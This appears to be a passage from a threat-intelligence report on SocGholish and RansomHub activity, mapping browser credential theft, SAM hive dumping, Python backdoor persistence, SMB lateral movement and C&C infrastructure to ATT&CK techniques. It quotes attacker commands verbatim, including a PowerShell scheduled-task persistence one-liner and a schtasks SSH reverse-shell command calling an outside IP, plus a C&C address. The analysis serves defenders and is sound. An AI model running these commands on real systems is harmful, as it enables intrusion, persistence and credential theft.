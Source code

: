 **Credential Access and Exfiltration:** SocGholish attempts to gather sensitive browser data by targeting both default and additional browser profiles:
*   Copying Microsoft Edge and Google Chrome login data to specified locations (T1555.003 Credentials from Password Stores: Credentials from Web Browsers).
*   Exfiltrating these binary files (`<redacted>edg.bin`, `<redacted>chr.bin`, and others from additional profiles) to the C&C server (T1041: Exfiltration Over C2 Channel).
*   Extracting the `app_bound_encrypted_key` from Edge and Chrome Local State files.
*   Listing contents of Chrome user folders to identify other profiles.

Additionally, the threat actors used the `certutil` utility to extract registry hives (SAM, SECURITY, SYSTEM) from Volume Shadow Copies, saving them as `s*1.txt` in the `%PROGRAMDATA%` folder (T1003.002 OS Credential Dumping: Security Account Manager, S0160 : certutil, T1006 : Direct Volume Access).

**Backdoor Deployment and Persistence:** A Python-based backdoor is deployed for persistent access and to relay connections:
*   Downloading and installing Python 3.12 (T1059.006: Command and Scripting Interpreter: Python).
*   Installing Python PIP and necessary dependencies.
*   Creating a scheduled task to execute the Python backdoor for persistence (T1053.005: Scheduled Task/Job: Scheduled Task). The command used was similar to: `powershell $a = New-ScheduledTaskAction -WorkingDirectory 'C:\Users\<redacted>\AppData\Local' -Execute 'python.exe' -Argument 'pypa.py'; $t = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(1) -RepetitionInterval (New-TimeSpan -Minutes 1); $s = New-ScheduledTaskSettingsSet -ExecutionTimeLimit '00:00:00' -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries; Register-ScheduledTask -TaskName 'Wder41' -Action $a -Trigger $t -Settings $s;`.
The Python backdoor (`pypa.py`), obfuscated with pyobfuscate, contains a hardcoded C&C server IP address and port, such as `38.180.81.153:443` (T1095 Non-Application Layer Protocol). Its purpose is to listen for commands from the attacker and create connections to specified targets within the compromised environment.

**Lateral Movement:** The attacker was observed using the SMB protocol (T1021.002: Application Layer Protocol: SMB/Windows Admin Shares) to connect to multiple hosts in the network using compromised credentials (T1078: Valid Accounts). Subsequently, a BAT file was transferred to the `%PROGRAMDATA%` folder of remote hosts, and a scheduled task was created to execute it every two hours.

**Reverse Shell Deployment:** Multiple tasks were executed to deploy an SSH reverse shell with port forwarding (T1572 Protocol Tunneling, T1021.004: Remote Services: SSH, T1041: Exfiltration Over C2 Channel). This involved listing the contents of OpenSSH, creating a scheduled task to establish the reverse shell (e.g., `schtasks /create /tn "Update" /tr "ssh.exe -R 2525 -p 443 -o StrictHostKeyChecking=no <redacted>@51.39.26.**/sc minute /mo 5"`), and running the scheduled task.

**Tool Transfer:** The attacker downloaded and executed `NIRCMD.exe` (T1105: Ingress Tool Transfer) to collect screenshots, which were then sent to the C&C server.

**Command and Control Infrastructure:** SocGholish utilizes compromised domains for C&C, employing domain shadowing. Trend Micro identified 18 active C&C servers with domains rotated weekly. The RansomHub infrastructure identified includes 22 IP addresses across various Autonomous Systems, predominantly in the US, with some in the Netherlands and Germany.

### Countries
*   United States
*   Japan
*   Taiwan
*   Netherlands
*   Germany
